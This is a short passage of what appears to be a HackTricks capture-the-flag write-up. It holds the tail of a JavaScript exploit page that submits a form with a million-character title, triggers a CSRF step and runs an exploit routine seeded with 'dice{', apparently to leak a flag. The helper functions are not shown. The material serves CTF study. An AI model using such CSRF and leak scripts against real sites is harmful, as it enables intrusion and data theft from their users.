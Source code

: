 ```html
x.title.value = "A".repeat(1000000)
x.submit()
}

window.onload = () => {
let p = new URL(location).searchParams;
if(!p.has('i')){
console.log(`no INSTANCE`)
return
}
INSTANCE = p.get('i')
// step 1
if(p.has('csrf')){
csrf()
return
}
// step 2
if (p.has('exploit')) {
// window open is ok in headless :)
popunder()

exploit('dice{')
}
}
</script>
```
<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
